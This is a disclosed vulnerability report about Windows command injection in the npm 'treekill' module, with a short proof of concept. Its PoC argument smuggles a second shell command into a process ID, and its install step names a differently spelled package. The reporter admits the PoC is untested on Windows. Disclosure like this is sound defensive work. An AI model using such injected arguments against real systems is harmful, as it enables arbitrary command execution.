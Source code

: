 # [treekill] RCE via insecure command concatenation (only Windows)

## Report Details
- **Report ID**: 703415
- **URL**: https://hackerone.com/reports/703415
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-09-28T09:22:28.392Z
- **Disclosed**: 2019-12-04T19:45:24.217Z

## Reporter
- **Username**: mik317
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `RCE` issue in the `treekill` module.
It allows to execute `arbitrary commands remotely inside the victim's PC`

# Module
**module name:** `treekill`
**version:** `1.0.0`
**npm page:** `https://www.npmjs.com/package/treekill`

## Module Description
> treekill process and it's all children and child offspring children.

## Module Stats
[N/A] downloads in the last day
[106] downloads in the last week
[N/A] downloads in the last month

## Vulnerability Description
The issue occurs because a `user input` is concatenated inside a `command` that will be executed without any check. The issue arises here: https://github.com/node-modules/treekill/blob/master/index.js#L32
(as you can see, the `Linux` part is `sanitized`, while the `Win` one no ... it simply uses the `+` operand to concatenate the input)

## Steps To Reproduce:
1. Create the following PoC file:

```js
// poc.js
var kill = require('treekill');
kill('3333332 & echo "HACKED" > HACKED.txt & ');
```
1. Execute the following commands in terminal:

```bash
npm i tree-kill # Install affected module
dir # Check *HACKED.txt* doesn't exist
node poc.js #  Run the PoC
dir # Now *HACKED.txt* exists :)
```
1. The `HACKED.txt` has been created

## Patch
> Don't concatenate `commands` using insecure `user's inputs` :)

## Supporting Material/References:
- [OPERATING SYSTEM VERSION]: Kali Linux
- [NODEJS VERSION]: 10.16.3
- [NPM VERSION]: 6.0.9

# Wrap up
- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 

PS: Note I'm working on a LInux machine, so I'm not sure if the syntax used to inject the command is successfull ... anyway, the issue is possible, as you can see from the code. If you'll not be able to reproduce the PoC, let me know and I'll switch on a `Win` machine in order to make working the PoC.

## Impact

`RCE` on `treekill` via `insecure command concatenation`

## Attachments
No attachments

